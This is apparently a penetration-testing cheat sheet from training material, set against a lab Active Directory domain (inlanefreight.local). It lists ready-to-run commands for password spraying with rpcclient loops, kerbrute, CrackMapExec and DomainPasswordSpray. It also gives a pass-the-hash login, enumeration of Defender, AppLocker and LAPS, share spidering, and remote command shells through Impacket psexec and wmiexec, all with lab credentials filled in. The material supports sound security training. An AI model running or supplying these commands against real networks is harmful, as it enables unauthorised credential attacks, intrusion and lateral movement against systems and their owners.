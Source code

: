 | `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U` | Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host. |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done` | Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1` | Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep. |
| `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses CrackMapExec to validate a set of credentials from a Linux-based host. |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep. |
| `Import-Module .\DomainPasswordSpray.ps1` | Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host. |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host. |



### Enumerating Security Controls
| `Get-MpComputerStatus` | PowerShell cmd-let used to check the status of Windows Defender Anti-Virus from a Windows-based host. |
| `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view AppLocker policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode` | PowerShell script used to discover the PowerShell Language Mode being used on a Windows-based host. Performed from a Windows-based host. |
| `Find-LAPSDelegatedGroups` | A LAPSToolkit function that discovers LAPS Delegated Groups from a Windows-based host. |
| `Find-AdmPwdExtendedRights` | A LAPSTookit function that checks the rights on each computer with LAPS enabled for any groups with read access and users with All Extended Rights. Performed from a Windows-based host. |
| `Get-LAPSComputers` | A LAPSToolkit function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |



### Credentialed Enumeration
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over smb using valid credentials and attempts to discover more users (--users) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over smb using valid credentials and attempts to discover groups (--groups) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users` | Authenticates with a Windows target over smb using valid credentials and attempts to check for a list of logged on users (--loggedon-users) on the target Windows host. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` | Authenticates with a Windows target over smb using valid credentials and attempts to discover any smb shares (--shares). Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share` | Authenticates with a Windows target over smb using valid credentials and utilizes the CrackMapExec module (-M) spider_plus to go through each readable share (Dev-share) and list all readable files. The results are outputted in JSON. Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` | Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (-H). Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only` | Enumerates the target Windows domain using valid credentials and performs a recursive listing (-R) of the specified share (SYSVOL) and only outputs a list of directories (--dir-only) in the share. Performed from a Linux-based host. |
| `rpcclient $> queryuser 0x457` | Enumerates a target user account in a Windows domain using its relative identifier (0x457). Performed from a Linux-based host. |
| `rpcclient $> enumdomusers` | Discovers user accounts in a target Windows domain and their associated relative identifiers (rid). Performed from a Linux-based host. |
| `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` | Impacket tool used to connect to the CLI of a Windows target via the ADMIN$ administrative share with valid credentials. Performed from a Linux-based host. |
| `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` | Impacket tool used to connect to the CLI of a Windows target via WMI with valid credentials. Performed from a Linux-based host. |